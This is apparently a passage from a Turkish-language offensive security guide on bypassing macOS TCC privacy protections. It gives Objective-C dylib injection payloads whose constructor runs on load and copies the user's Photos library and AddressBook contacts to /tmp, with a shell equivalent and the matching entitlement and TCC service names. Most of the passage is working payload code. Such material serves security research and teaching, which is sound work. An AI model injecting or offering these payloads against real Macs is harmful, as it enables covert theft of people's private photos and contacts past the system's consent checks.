 ```objectivec
NSFileManager *fileManager = [NSFileManager defaultManager];
NSError *error = nil;

// Get the path to the user's Pictures folder
NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Pictures/Photos Library.photoslibrary"];
NSString *tmpPhotosPath = @"/tmp/photos";

// Copy the contents recursively
if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
NSLog(@"Error copying items: %@", error);
}

NSLog(@"Copy completed successfully.", error);

fclose(stderr); // Close the file stream
}
```
{{#endtab}}

{{#tab name="Shell"}}
`$HOME/Pictures/Photos Library.photoslibrary` dosyasını `/tmp/photos` konumuna kopyalayın.
```bash
cp -r "$HOME/Pictures/Photos Library.photoslibrary" "/tmp/photos"
```
{{#endtab}}
{{#endtabs}}

### İletişim

- **Yetki**: `com.apple.security.personal-information.addressbook`
- **TCC**: `kTCCServiceAddressBook`

{{#tabs}}
{{#tab name="ObjetiveC"}}
`$HOME/Library/Application Support/AddressBook`'ı `/tmp/contacts`'a kopyalayın.
```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{
freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

NSFileManager *fileManager = [NSFileManager defaultManager];
NSError *error = nil;

// Get the path to the user's Pictures folder
NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Library/Application Support/AddressBook"];
NSString *tmpPhotosPath = @"/tmp/contacts";

// Copy the contents recursively
if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
NSLog(@"Error copying items: %@", error);
}

NSLog(@"Copy completed successfully.", error);

```